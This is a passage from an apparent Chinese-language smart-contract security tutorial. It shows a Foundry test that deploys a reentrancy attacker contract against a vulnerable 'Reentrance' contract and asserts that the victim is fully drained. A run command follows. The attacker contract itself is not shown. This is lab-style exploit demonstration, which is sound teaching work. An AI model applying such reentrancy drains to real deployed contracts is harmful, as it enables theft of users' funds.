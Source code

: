```solidity
        vm.prank(user2);
        reentrance.donate{value: 5 ether}(user2);
        
        // 部署攻击合约
        vm.prank(attackerAddr);
        attacker = new ReentrancyAttacker(address(reentrance));
    }

    function testReentrancyAttack() public {
        uint256 contractBalanceBefore = address(reentrance).balance;
        uint256 attackerBalanceBefore = attackerAddr.balance;
        
        console.log("合约余额 (攻击前):", contractBalanceBefore);
        console.log("攻击者余额 (攻击前):", attackerBalanceBefore);
        
        // 执行重入攻击
        vm.prank(attackerAddr);
        attacker.attack{value: 1 ether}();
        
        uint256 contractBalanceAfter = address(reentrance).balance;
        uint256 attackerBalanceAfter = attacker.getBalance();
        
        console.log("合约余额 (攻击后):", contractBalanceAfter);
        console.log("攻击者余额 (攻击后):", attackerBalanceAfter);
        
        // 验证攻击成功
        assertEq(contractBalanceAfter, 0);
        assertGt(attackerBalanceAfter, 1 ether); // 获得超过投入的资金
    }
    
    function testReentrancyDetails() public {
        vm.prank(attackerAddr);
        
        // 记录每次withdraw调用
        vm.recordLogs();
        attacker.attack{value: 1 ether}();
        
        // 验证攻击者的余额记录
        assertEq(reentrance.balanceOf(address(attacker)), 0); // 最终余额为0
        assertEq(address(reentrance).balance, 0); // 合约被掏空
    }
}
```

### 运行测试

```bash
# 运行重入攻击测试
forge test --match-contract ReentranceTest -vvv

# 输出应该显示合约余额被完全掏空
```
